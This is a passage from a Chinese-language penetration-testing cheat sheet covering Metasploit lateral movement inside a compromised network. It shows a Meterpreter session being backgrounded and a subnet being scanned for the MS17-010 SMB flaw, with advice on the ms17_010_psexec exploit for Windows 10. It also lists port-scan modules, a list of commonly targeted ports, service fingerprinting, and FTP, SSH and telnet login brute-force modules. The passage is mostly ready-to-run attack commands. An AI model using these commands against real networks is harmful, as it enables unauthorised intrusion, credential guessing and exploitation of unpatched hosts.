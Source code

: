       MS17-010 

      ```shell
      meterpreter > background 
      [*] Backgrounding session 1...
      msf exploit(multi/handler) > use auxiliary/scanner/smb/smb_ms17_010 
      msf auxiliary(scanner/smb/smb_ms17_010) > set rhosts 172.17.0.0/24
      rhosts => 172.17.0.0/24
      msf auxiliary(scanner/smb/smb_ms17_010) > set threads 50
      threads => 50
      msf auxiliary(scanner/smb/smb_ms17_010) > run
      ```

      先利用exploit/windows/smb/ms17_010_psexec，win10旧版依旧可以，新版设置smbuser，smbpass即可 

  16. ##### Msf扫描

      经过上面设置路由即可使用以下scan： 

      ```shell
      use auxiliary/scanner/portscan/syn
      use auxiliary/scanner/portscan/tcp
      ```

      ```shell
      常用port 21,80,443,873,2601,2604,3128,4440,6082,6379,8000,8008,8080,8081,8090,8099,8088,8888,9000,9090,9200,11211,27017,28017,50070,1900,4440,5082,7001,6082,50000,8888,2222,2082,2083,3312,3311,7778,8083,10000,8089,8649,27017,27018,5900,5631,4899
      ```

      服务扫描：

      ```shell
      SMB版本识别：auxiliary/scanner/smb/smb_version 
      MSSQL信息收集：search mssql相关模块，如auxiliary/scanner/mssql/mssql_ping 查询mssql监听的端口，默认1433
      SSH版本信息：auxiliary/scanner/ssh/ssh_version
      FTP版本识别：auxiliary/scanner/ftp/ftp_version
      HTTP服务：auxiliary/scanner/http/http_header 返回相关header信息
      ```

      port：21 （FTP）

      ```
      auxiliary/scanner/ftp/ftp_login     //FTP登陆爆破 其它：search FTP。FTP常见利用方式，除了直接获取文件，还要注意目录跨越漏洞，成功利用，可以直接反弹shell
      ```

      port:22 (SSH)

      ```
      auxiliary/scanner/ssh/ssh_login     其它：search SSH
      ```

      port:23 (telnet)

      ```
      auxiliary/scanner/telnet/telnet_login    //主要目标是内网中的路由器，交换机等网络设备
      ```
